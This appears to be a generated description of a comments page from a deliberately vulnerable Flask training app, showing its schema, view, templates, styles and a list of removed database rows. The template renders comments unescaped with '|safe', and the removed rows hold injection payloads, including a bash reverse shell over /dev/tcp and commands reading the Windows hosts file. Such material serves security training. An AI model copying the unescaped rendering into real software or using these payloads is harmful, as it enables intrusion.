
/comments, run on an earlier commit of the app's database.

And on a later commit of the database.
### tables this page shows
CREATE TABLE comments (
    `id` INTEGER PRIMARY KEY AUTOINCREMENT,
    `username` TEXT NOT NULL,
	`text` TEXT NOT NULL
);

### app.py (the view, shortened to what this page needs)
@app.route('/comments', methods=['GET', 'POST'])
def comments():
    comments_query = text("SELECT username, text FROM comments")
    comments = db.session.execute(comments_query).fetchall()
    return render_template('comments.html', comments=comments)

### templates/comments.html (shortened to what this page needs)
{% extends "base.html" %}
{% block content %}
    <h2>Leave a comment for our great leader!</h2>
    <form method="POST" action="{{ url_for('comments') }}" style="max-width: 600px; margin: 20px auto; padding: 20px; border: 1px solid #ccc; border-radius: 10px; background-color: #f9f9f9;">
        <div style="margin-bottom: 15px;">
            <label for="username" style="display: block; font-weight: bold; margin-bottom: 5px;">Name:</label>
            <input type="text" id="username" name="username" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px;">
        </div>
        <div style="margin-bottom: 15px;">
            <label for="comment" style="display: block; font-weight: bold; margin-bottom: 5px;">Comment:</label>
            <textarea id="comment" name="comment" required style="width: 100%; padding: 10px; border: 1px solid #ccc; border-radius: 5px; height: 100px;"></textarea>
        </div>
        <div style="text-align: center;">
            <button type="submit" style="padding: 10px 20px; background-color: #007bff; color: white; border: none; border-radius: 5px; cursor: pointer;">Submit</button>
        </div>
    </form>
    <h3>All Comments</h3>
    <ul>
        {% for comment in comments %}
            <li><strong>{{ comment.username }}</strong>: {{ comment.text|safe }}</li>
        {% endfor %}
    </ul>
{% endblock %}

### templates/base.html (shortened to what this page needs)
<!DOCTYPE html>
<html lang="en">
<head>
    <link rel="stylesheet" href="{{ url_for('static', filename='style.css') }}">
</head>
<body>
    <div id="container">
        <header>
            <div id="mainpic">
            </div>
        </header>
        <nav id="menu">
            <ul>
                <li><a href="{{ url_for('index') }}">Home</a></li>
                <li><a href="{{ url_for('quotes') }}">Quotes</a></li>
				<li><a href="{{ url_for('search') }}">Search</a></li>
				<li><a href="{{ url_for('comments') }}">Comments</a></li>
				<li>
					{% if 'user_id' in session %}
						<a href="{{ url_for('logout') }}">Logout</a>
					{% else %}
						<a href="{{ url_for('login') }}">Login</a>
					{% endif %}
				</li>
				<li><a href="{{ url_for('sitemap') }}">Site Map</a></li>
            </ul>
        </nav>
        <main id="content">
            {% block content %}{% endblock %}
        </main>
        <footer id="footer">
            <h3><a href="#">Copyright &copy; Donald. All Rights Reserved.</a></h3>
        </footer>
    </div>
</body>
</html>

### static/style.css (style rules this page uses)
body { margin: 0; padding: 0; text-align: left; font: 12px Arial, Helvetica, sans-serif; font-size: 13px; color: #061C37; background-image:url(images/background.jpg); background-repeat:no-repeat; }
* { margin: 0 auto 0 auto; text-align:left; }
#container { display: block; height:auto; position: relative; width: 940px; }
#mainpic { background-image:url(images/trump_flicker_face_yess.jpg); background-repeat:no-repeat; width:900px; height:402px; }
#menu { background-image:url(images/menu.png); background-repeat:no-repeat; width:940px; height:69px; float:left; clear:both; }
#content { width:920px; height:auto; background-color:#FFF; padding-left:10px; padding-right:10px; padding-bottom:5px; }
#content h2 { text-align:center; }
#footer h3 a,#footer h3 a:visited { text-align:center; font-size:12px; text-decoration:none; color:#7198E1; }
#menu ul { list-style: none; padding: 0px; margin-left:auto; width:900px; }
#menu li { list-style: none; padding: 0px; display: inline; }
#menu a { float: left; width: 120px; height: 40px; display: block; text-align: center; text-decoration: none; color: #ffffff; font-weight: bold; padding-top: 10px; font-size: 15px; }
html, body { text-align: center; }

What changed in the data, as far as the page shows it:
removed comments: username "JD Vance", text "We love you Dony!"
removed comments: username "JD Vance", text "We love you Dony!"
removed comments: username "JD Vance", text "\" && bash -c 'bash -i >& /dev/tcp/ /9000 0>&1' #"
removed comments: username "VD Jance", text "\">C:/etc"
removed comments: username "JD Vance", text "\">C:\\windows\\system32\\drivers\\etc\\"
removed comments: username "VD Jance", text "\"C:\\windows\\system32\\drivers\\etc\\\""
removed comments: username "VD Jance", text "\">& type C:\\Windows\\System32\\drivers\\etc\\hosts"
removed comments: username "JD", text "\"& type C:\\Windows\\System32\\drivers\\etc\\hosts"
removed comments: username "JD Vance", text "\">& type C:\\Windows\\System32\\drivers\\etc\\hosts<\""
removed comments: username "VD Jance"
removed comments: username "JD Vance", text "import os cwd = os.getcwd() alert(\"Current working directory:\", cwd)"
removed comments: username "JD Vance"
Also different on the page:
text now shown: "Copyright © Donald. All Rights Reserved."
